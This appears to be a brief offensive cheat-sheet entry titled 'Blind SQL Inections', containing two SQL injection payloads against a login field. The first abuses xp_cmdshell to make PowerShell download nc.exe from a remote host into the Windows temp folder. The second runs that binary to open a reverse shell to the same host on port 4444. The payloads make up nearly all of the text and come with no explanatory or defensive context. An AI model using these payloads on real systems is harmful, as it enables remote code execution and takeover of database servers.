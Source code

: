 ## Blind SQL Inections

admin';EXEC master.dbo.xp_cmdshell "powershell.exe iex (iwr http://192.168.45.154/nc.exe -OutFile C:\Windows\Temp\nc.exe)";-- 

admin';EXEC xp_cmdshell 'C:\Windows\Temp\nc.exe 192.168.45.154 4444 -e cmd.exe';--